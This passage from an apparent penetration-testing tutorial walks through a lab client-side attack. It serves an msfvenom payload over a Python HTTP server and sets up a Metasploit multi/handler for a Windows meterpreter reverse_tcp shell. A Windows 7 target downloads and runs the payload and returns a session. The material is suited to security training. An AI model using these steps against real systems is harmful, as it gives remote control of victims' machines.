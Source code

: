 ```
sudo python -m SimpleHTTPServer 80
```

However, we also need to set up the handler to receive the reverse connection back from the target system.

Now, the reason we're utilizing the Metasploit `exploit/multi/handler` is because whenever we're dealing with payloads that are advanced like a meterpreter payload, we need an appropriate listener to actually handle the reverse connection or the connection that we receive from the target system.

And once we specify the `multi/handler`, it's going to say using the configured payload. We need to change that because we need to set up a listener for the meterpreter payload. And in this case, the payload that we're going to be using first or that we are going to be awaiting connection back from, is the Windows x86 payload that we generated.

So this is where you would specify the actual payload option that you had used to generate your payload with msfvenom.

```
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
```

I now need to set the LHOST option or the IP address that we configured our msfvenom payload to connect back. And then set the LPORT that we had also configured with msfvenom when generating our Windows payload.

``` 
show options
set LHOST 10.10.10.5
set LPORT 1234
run
```

So now, it's listening for a connection from the target system whenever the payload is executed. 

So I'm just going to switch over to the Windows 7 system.

So I'll download payload x86 because we set up the multi/handler for that particular payload type.

```
http://10.10.10.5/
```

We can execute it. And we should receive a reverse connection on our handler now.

I received a meterpreter session from the target system. And we now have access on the target system. And this is what a client-side attack looks like.

```
meterpreter > sysinfo
meterpreter > exit
```

Now, we haven't explored the process of antivirus evasion and, more specifically, encoding our payloads.

And you can repeat this process for the Linux payload.
